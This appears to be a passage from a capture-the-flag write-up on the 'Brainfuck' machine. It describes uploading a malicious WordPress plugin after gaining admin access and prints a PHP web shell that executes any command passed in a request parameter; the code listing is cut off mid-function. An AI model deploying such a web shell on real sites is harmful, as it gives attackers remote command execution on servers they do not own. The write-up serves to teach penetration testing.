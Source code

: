 ![admin](./brainfuck/admin.png)

Now this user has higher privileges! With this access, it is possible to upload & activate a WordPress plugin that will provide remote command execution:

- https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/WordPress/plugin-shell.php

```php
<?php
/*
 * Plugin Name: bubba
 */
if (isset($_REQUEST['cmd'])) {
  $cmd = $_REQUEST['cmd'];
  executeCommand($cmd);
  die();
}

function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
```